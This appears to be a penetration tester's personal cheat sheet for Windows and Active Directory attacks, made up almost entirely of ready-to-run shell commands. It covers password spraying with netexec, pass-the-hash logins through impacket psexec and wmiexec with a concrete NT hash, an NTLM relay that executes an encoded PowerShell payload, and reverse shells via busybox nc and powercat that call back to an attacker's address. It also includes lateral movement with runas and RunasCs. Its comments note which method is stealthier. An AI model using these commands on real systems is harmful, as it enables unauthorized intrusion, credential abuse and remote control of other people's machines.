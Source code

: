 ```shell
netexec smb <ip-range> -u user.txt -p pass.txt --continue-on-success
netexec winrm <ip-range> -u user.txt -p pass.txt --continue-on-success
netexec rdp <ip-range> -u user.txt -p pass.txt -d corp.com --continue-on-success --screenshot --screentime <time> # --nla-screenshot
# no bruteforce for pass spraying
--no-bruteforce --continue-on-success


# format of hashes "LMHash:NTHash" if LMhash isn't available then 32 0's
# with admin right, gives SYSTEM account access due to service running under system account
# Process: login to writable SMB share and upload the binary, Creates service to run that binary through RPC in order to get interactive shell 
impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Domain.com/Administrator@192.168.50.21 
impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.21   # Tested, it works
# wmiexec.py leverages WMI over DCOM to execute commands, avoiding the need to create a new service on the target system.
# Means more stealthier than psexec
impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.21

netexec smb 192.168.50.21 -u Administrator -H 7a38310ea6f0027ee955abed1762964b
netexec smb 192.168.50.21 -u 'WORKGROUP\Administrator' -H 7a38310ea6f0027ee955abed1762964b
# for NTLM relay attack
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."

# RDP using
remmina    
xfreerdp3 /u:'CORP\Administrator' /p:'password' /v:192.168.50.246 /dynamic-resolution +clipboard
xfreerdp3 /u:stephanie /d:corp.com /v:192.168.50.75  /dynamic-resolution +clipboard
xfreerdp3 /u:'CORP\Administrator' /pth:'ntlmhash' /v:192.168.50.246 /dynamic-resolution +clipboard

# Reverse Shell
nc -nlvp 4444
# try well known ports like 80
nc -nlvp 80 # in case something might be blocked
penelope port # for more stable shell but if it doesn't work then use netcat
socat -d -d TCP-LISTEN:4444 STDOUT

# Very stable in non-interactive environment
busybox nc <ip> <port> -e /bin/sh


ssh user@192.168.0.10 "bash --noprofile --norc"
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP

evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

powercat -c 192.168.119.3 -p 4444 -e powershell
runas /user:backupadmin cmd


RunasCs.exe user1 password1 "cmd /c whoami /all"

. .\Inoke-RunasCS
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"

# ALSO CHECK [[#Lateral Movement in AD]]
```
### Extras
```shell
```